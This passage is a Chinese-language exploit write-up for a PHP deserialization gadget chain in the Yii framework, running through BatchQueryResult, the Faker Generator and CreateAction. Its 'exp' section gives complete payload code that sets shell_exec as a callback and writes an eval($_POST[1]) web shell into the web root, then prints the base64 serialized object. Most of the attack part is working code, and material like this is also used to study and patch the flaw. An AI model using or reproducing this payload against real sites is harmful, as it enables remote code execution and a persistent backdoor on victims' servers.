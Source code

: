 - $arguments是一个空的数组，在call_user_func_array中，下面的代码是可以正常执行的。因此这里就可以任意执行一个无参的函数。

```php
class A{
	public $a = 1;
  function bar(){
    echo $a;
}
call_user_func_array([new A,'bar'],array())
```

- 在所有代码中搜索call_user_func函数，在CreateAction中，`this->checkAccess`是它的属性，`thi->id`是父类的属性，因此可以构造实现任意代码执行。

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669954696096-141cef0f-9c3c-4b24-804d-6450d93a87e7.png#averageHue=%231e1e1e&clientId=u74864b3b-660c-4&from=paste&height=133&id=u9e7f08bb&originHeight=293&originWidth=1649&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33093&status=done&style=none&taskId=u34460b7b-3c70-4a67-80cf-4daeaed5d10&title=&width=749.5454382994947)

#### 0x02 exp

- 需要有一个反序列化的入口

```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'shell_exec';
            $this->id = 'echo "<?php echo 3333333;eval($_POST[1]);?>" > /var/www/html/basic/web/3.php';

        }
    }   
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;
        public function __construct(){
            $this->formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace {
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
} 
?>
```
